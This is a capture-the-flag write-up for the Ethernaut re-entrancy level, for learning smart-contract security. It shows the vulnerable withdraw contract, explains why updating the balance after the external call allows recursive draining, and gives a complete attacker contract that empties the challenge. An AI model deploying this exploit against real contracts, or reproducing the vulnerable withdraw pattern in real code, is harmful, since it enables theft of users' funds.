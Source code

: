 ## Ethernaut Level 10 - Re-entrancy - Write-Up
<!--Authors: OofedUp-->

Difficulty: 6/10

Objective: steal all the funds from the contract.

![image](https://i.imgur.com/HzJ10Tc.png)

## Source
```javascript
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

The Re-entrancy bug is one of the most known solidity "vulnerabilities". We can cause a recurssive call in the `withdraw` function in order to drain the contract of Ethereum. Here's how we will do it:

1. We create a new contract which will exploit the re-entrancy vulnerability.
2. We will donate 0.05 ETH to the challenge contract for our contract's address.
3. If we now call `Reentrance.balanceOf(ADDR_OF_OUR_CONTRACT)` we should get back 0.05 ETH.
4. The fallback function in our contract will call `Reentrance.withdraw(0.05)`.
5. When we trigger the `Reentrance.withdraw` function from our contract, the `Reentrance` contract will check if we have that balance (`if(balances[msg.sender] >= _amount)`), and we do have 0.05 ETH so it passes that check.
6. The contract will call our fallback function, sending us the money, but it will also trigger the `Reentrance.withdraw(0.05 ether)` again.
7. The `if(balances[msg.sender] >= _amount)` check will pass again since it hasn't reached `balances[msg.sender] -= _amount;` yet, this repeats until the `Reentrance` contract has less than 0.05 ETH. That's when our fallback function will withdraw `Reentrance.balance` instead, and then end this recursive loop.
8. We can withdraw the Ethereum from our contract to our personal wallet.
9. Profit! We just drained the contract!

The problem is that `balances[msg.sender] -= _amount;` happens after `msg.sender.call.value(_amount)()` so we can just call the function recursively without subtracting balance from our virtual account inside the `Reentrance` contract.

Also, `(msg.sender.call.value(_amount)()` will forward all the gas available, so the execution will not fail.  if something like `msg.sender.transfer(_amount)` was used instead, only 2300 gas would be forwarded, making this recursive loop impossible.

Here's the contract that I used:

```javascript
pragma solidity ^0.4.18;

interface Reentrance {
  function donate(address _to) public payable;
  function balanceOf(address _who) public view returns (uint balance);
  function withdraw(uint _amount) public;
}

contract inception{
    Reentrance main;
    address owner;

    function inception(){
        main = Reentrance(ADDR_OF_INSTANCE_HERE);
        owner = msg.sender;
    }

    function pwn() public{
        main.withdraw(50000000000000000);
    }

    function getback() public{
        require(msg.sender == owner);
        owner.send(this.balance);
    }

    function() public payable{
        if(main.balance >= 50000000000000000){
        main.withdraw(50000000000000000);
        }else if(main.balance > 0){
            main.withdraw(main.balance);
        }
    }
}
```

When calling the `inception.pwn()` function we need to give it a lot of gas (I gave it 5000000 just to be sure) so it has enough to do all the withdraws:

![image](https://i.imgur.com/9cYBwLd.png)

After the execution finishes, we can see al the transactions of 0.05 ETH that occurred due to the recursive call:

![image](https://i.imgur.com/b4WW5UX.png)

We have now drained the contract! We can submit it:

![image](https://i.imgur.com/kdxxxAW.png)
